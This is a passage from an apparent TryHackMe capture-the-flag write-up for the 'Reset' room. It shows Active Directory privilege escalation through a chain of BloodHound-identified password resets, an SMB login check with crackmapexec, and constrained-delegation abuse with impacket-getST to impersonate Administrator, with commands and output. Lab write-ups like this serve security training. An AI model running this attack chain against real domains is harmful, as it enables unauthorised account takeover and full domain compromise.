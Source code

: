 Looking through the results under Transative Object Control for TABATHA_BRITT we see that shee has GenericAll contol over SHAWNA_BRAY, who in turn has ForceChangePassword control over CRUZ_HALL, who finally has GenericAll over DARLA_WINTERS.

reset_bloodhound.png

That's a lot off password changing waiting to be done, lets get to it.

reset_net_rpc.png

Now that we've updated these lets confirm we can login to SMB as DARLA_WINTERS:

Nice, it worked:
```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ crackmapexec smb thm.corp -u DARLA_WINTERS -p 'Password789' --shares     
SMB         thm.corp        445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         thm.corp        445    HAYSTACK         [+] thm.corp\DARLA_WINTERS:Password789 
SMB         thm.corp        445    HAYSTACK         [+] Enumerated shares
SMB         thm.corp        445    HAYSTACK         Share           Permissions     Remark
SMB         thm.corp        445    HAYSTACK         -----           -----------     ------
SMB         thm.corp        445    HAYSTACK         ADMIN$                          Remote Admin
SMB         thm.corp        445    HAYSTACK         C$                              Default share
SMB         thm.corp        445    HAYSTACK         Data            READ,WRITE      
SMB         thm.corp        445    HAYSTACK         IPC$            READ            Remote IPC
SMB         thm.corp        445    HAYSTACK         NETLOGON        READ            Logon server share 
SMB         thm.corp        445    HAYSTACK         SYSVOL          READ            Logon server share 
```

If we mark DARLA_WINTERS as 'owned' back in BloodHound, we see she has delegation rights:
```
Allowed To Delegate	cifs/HayStack.thm.corp/thm.corp
cifs/HayStack.thm.corp
cifs/HAYSTACK
cifs/HayStack.thm.corp/THM
cifs/HAYSTACK/THM
```

We can use impacket-getST to exploit this:
```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ impacket-getST -k -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
